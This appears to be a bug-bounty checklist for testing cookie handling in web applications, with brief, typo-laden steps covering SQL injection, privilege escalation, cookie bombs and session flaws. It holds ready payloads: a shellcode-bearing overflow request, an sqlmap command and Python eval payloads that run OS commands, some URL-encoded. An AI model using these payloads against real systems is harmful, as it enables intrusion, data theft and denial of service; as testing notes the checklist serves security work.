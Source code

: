 - [ ] sensetive Data Stored in Cookies

```
check if anf pii or other sensitive infromation stored in  cookies this in fromation usually includes : email,sessionID, data of birth ,mobile address ,ssn ,etc.
```

- [ ] cookie length violation  
    leads to Buffer Overflow : A cookie length which is longer than profiled length can indicate that a buffer overflow attack attempt takes place. In a buffer overflow attack, the attacker will have to send very long strings that will generate the overflow, all of them generating this Violation.

```
GET  /default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u9090%u8190%u00c3%u0003%u8b00%u531 b%u53ff%u0078%u0000%u00=a
```

- [ ] Arbitrary Cookie injection

```
try injecting some arbitrary cookies using attack such as CRLF injection ,some times it can be used to escalate privilege or if the application malfunction, it can reveal sensitive infromation through stack traces
```

- [ ] Mass Assignment

```
similar to the parameter poolution, however in this , attacker tried to inject multiple user ID in same user_id  parameter
```

- [ ] Danail of service - cookie Bomb

```
forcing the server to process cookies larger than the resricted cookie size defined by the server may cause danial of service attack<https://target.com/index.php?param1=xxxxxxxxxxxxxxxxxxxxxx>After input "xxxxxxxxxxxxxxxxxxxxxx" as a value of param1, check your cookies. If there is cookies the value is "xxxxxxxxxxxxxxxxxxxxxx" it means the website is vulnerableReferences: [Hackerone #105363](<https://hackerone.com/reports/105363>)
```

- [ ] SQL injection

```
How to inject the code in Cookies?There are many HTTP interceptors and HTTP editors that can intercept the HTTP request before it is sent to the server. Then the tester can introduce his malicious SQL statement in the cookie field.It’s like a get/post based SQL Injection, except that certain characters can’t be used. For example, ‘**;**‘ and ‘**,**‘ are typically treated as delimiters, so they end the injection if they aren’t URL-encoded.Cookie : sessionId=xxxbad1fdc’ order by 1# (Normal)_Cookie : sessionId=xxxbad1fdc’ order by 2# (Error)_after error sqlmap -u "" --cookie="" -p "" --dbs
```

- [ ] parameter pollution

```
1. Assume that cookie utilize a parameter called **user_id=** to rerieve some data2. however , the application is not vulnerability to idor and change **user_id** to victim value dosnt help you3.attacker ,add an addition another  **user_id=** parameter value to rhe cookie with vuctim user ID LIke: **user_id=atacker&user_id=victim**4. Three things can happen here:- the application may retrieve data of victim data- the application may retrieve data of victim data and attacker data- the application is not retrieve data it is not vulnerability
```

- [ ] Authentication Bybass (cookie are not avalid)

```
try accessing a protected resource by removing cookies
```

- [ ] xss

```
assume that the value of the cookie parameter "name" is reflected in the applicationchange the "name" value to "xss payload"
```

- [ ] Insufficient session management

```
1. session doesnt expire on logout2. long session expirey3. session doesnt expire on password reset /change4. concurrent session
```

- [ ] privilege escalation

- horizontal

```
1.assume that the application uses mult-organization models2.cookie are used wich organized user can access3.alter the cookie in order to access some other application
```

- vertical

```
1.assume the cookie are used to determine the role of the user2.alter the cookie in order to elevate the role of the user
```

- similarly

```
1.try if the flower users cookies can be used to access higher users function2.try if the cookie of organization 1 user van be used to access function of organizaion 2
```

- [ ] sesion puzzing

```
when an application utilzes the same session variable for multiple purposes , this can abused by an attacker to trick the application and perform the action as an authenticated or privileged user
```

- [ ] Exploiting Python Code Injection  
    this payload in cookie or contenttype or path or parameter

```
eval(compile('for x in range(1):\\n import time\\n time.sleep(20)','a','single'))
```

- [ ] OS command injection

```
**eval(compile("""for x in range(1):\\\\n import os\\\\n os.popen(r'COMMAND').read()""",'','single'))**
```

```
eval(compile("""__import__('os').popen(r'COMMAND').read()""",'','single'))
```

```
**__import__('os').popen('COMMAND').read()**
```

- [ ] URL encode some characters

```
param=eval%28compile%28%27for%20x%20in%20range%281%29%3A%0A%20import%20time%0A%20time.sleep%2820%29%27%2C%27a%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22for%20x%20in%20range%281%29%3A%5Cn%20import%20os%5Cn%20os.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=eval%28compile%28%22%22%22__import__%28%27os%27%29.popen%28r%27COMMAND%27%29.read%28%29%22%22%22%2C%27%27%2C%27single%27%29%29
```

```
param=__import__%28%27os%27%29.popen%28%27COMMAND%27%29.read%28%29
```

Example with one expression

```
__import__('os').popen('COMMAND').read()
```

Example with multiple expressions, separated by commas

```
str("-"*50),__import__('os').popen('COMMAND').read()
```

- [ ] Insecure Deserialization

```
 if cookis are using serialized Objects ,try performing insecure Deserialization Checks. portswigger laps
```

- [ ] Electronic Code Book

- [ ] Pickle Code Execution

- [ ] Cipher block chaining

- [ ] file inclusion

- [ ] IDOR

- [ ] session fixation

- [ ] padding oracle attack

- [ ] JWT attack